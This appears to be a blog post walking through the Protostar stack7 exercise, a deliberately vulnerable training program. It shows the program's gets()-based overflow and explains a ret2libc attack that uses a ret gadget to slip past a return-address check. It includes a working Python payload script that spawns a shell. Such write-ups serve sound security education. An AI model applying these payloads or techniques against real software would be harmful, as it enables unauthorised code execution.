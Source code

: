```yaml
---
layout: post
title: "ret2libc with a gadget: protostar stack7"
date: 2019-4-27
categories: jekyll update
---
```


This is a pretty similar one to the last, so it should also be a short post.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
{% endhighlight %}


The only difference here is that we cannot return to any address that begins in 0xb.

The way we are going to remedy this is with something called a gadget. If you remember from before, we can return into certain functions in code, such as in the last one we returned into system. 

What we are going to do here is return into a ret (the assembly instruction).

Finding this is much easier than searching libc. All we need to do is disassemble the functions in the program.

![stack7-1](/assets/stack7-1.png)
I popped open GDB, and just disassembled the getpath function, in order to find an address we can return to. 

![stack7-2](/assets/stack7-2.png)

It's repetitive, but I find the relevant functions.
![stack7-3](/assets/stack7-3.png)
Then, once more, let's find the /bin/sh string once more, ya know, for practice. 
I found the offset again, but thought I should include the junk above it. This is what you get when you forget to grep. 
So as a not, remember to grep.

Ok cool, we got the address of /bin/sh once again. Basically retracing the steps of the previous challenge, for p r a c t i c e.
![stack7-4](/assets/stack7-4.png)

Once more, let's organize this into a nice crunchy python script. 

{% highlight python %}
from struct import pack

#remember that we have an unsigned int sitting on the stack, so we need to overwrite that, hence why our offset is 80, not 76.
offset = "A" * 80

retaddr = pack("I", 0x8048544)

system = pack("I", 0xb7ecffb0)
exit = pack("I", 0xb7ec60c0)
binsh = pack("I", 0xb7fb63bf)

#get it ready for launch

exploit = offset + retaddr + system + exit + binsh
print exploit
{% endhighlight %}

![stack7-5](/assets/stack7-5.png)
Keep in mind that the file "test" you see is just the output of the script we wrote. 

And also keep in mind that you need to cat in an interactive mode, hence, the "-". I even forget that sometimes. 

So, recap time. What did we learn this time? 
If the eip gets overwritten with the address of an assembly instruction, then we can get that to execute. In our case this was as simple as dodging a protected return address. The return address essentially just pops and the next thing on the stack is then executed. And in doing this, the ret becomes a "gadget".

![ret](/assets/ret.jpg)

This is only scratching the surface of what can be done. I recommend researching "return oriented programming", because it is possible to do something like link together gadgets to effectively do everything that could be accomplished by shellcode or ret2libc. 

While we didn't really do return oriented programming, we did dip our feet in the water, and started exploring it conceptually.